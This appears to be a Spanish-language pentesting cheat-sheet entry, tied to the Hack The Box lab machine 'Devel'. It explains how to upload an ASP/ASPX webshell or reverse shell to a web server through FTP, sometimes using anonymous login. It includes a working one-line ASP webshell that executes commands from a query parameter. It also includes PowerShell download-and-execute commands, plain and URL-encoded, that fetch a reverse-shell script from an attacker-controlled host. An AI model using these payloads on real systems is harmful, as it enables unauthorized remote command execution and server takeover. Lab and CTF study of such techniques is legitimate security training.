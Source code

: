 ## DESCRIPTION
Subir una webshell/reverse-shell de formato ".asp o .aspx" utilizando ftp.
Necesitamos un usuario y acceso al directorio web. En determinados casos está habilitado el usuario anonymous:anonymous en el servidor ftp.


#### Mas información:
+ Reverse and Web Shells


## EXPLOITATION

1. Creamos la web/reverse shell 
	* https://github.com/borjmz/aspx-reverse-shell.git 
	* POSIBLES WEB SHELL: https://github.com/tennc/webshell/tree/master/fuzzdb-webshell/asp ó (creo que mejor) https://github.com/fuzzdb-project/fuzzdb/tree/master/web-backdoors
	* WEBSHELL ASP MUY SENCILLA PERO CERTERA: 
	
	```
	<%response.write CreateObject("WScript.Shell").Exec(Request.QueryString("cmd")).StdOut.Readall()%> 
 --> LLAMAR CON ?cmd=
2. Subimos la shell utilizando FTP:

![[Pasted image 20230131134535.png]]

![[Pasted image 20230206202348.png]]
3. Accedems desde el navegador o llamamos con wget:

```
wget http://IP/shell.aspx
```

**!!NOTA IMPORTANTE!!** Para obtener una shell desde una web shell podemos usar Invoke-PowershellTcp.ps1

```
#SIN URL ENCODING
 powershell -c IEX (New-Object Net.Webclient).downloadstring('http://10.10.14.16:8080/Invoke-PowerShellTcp.ps1')
#CON URL ENCODING
http://10.10.10.116/upload/webshell.asp?cmd=powershell%20-c%20IEX%20(New-Object%20Net.Webclient).downloadstring(%27http://10.10.14.16:8080/Invoke-PowerShellTcp.ps1%27)
```
## MACHINES

* Hack The Box: Devel

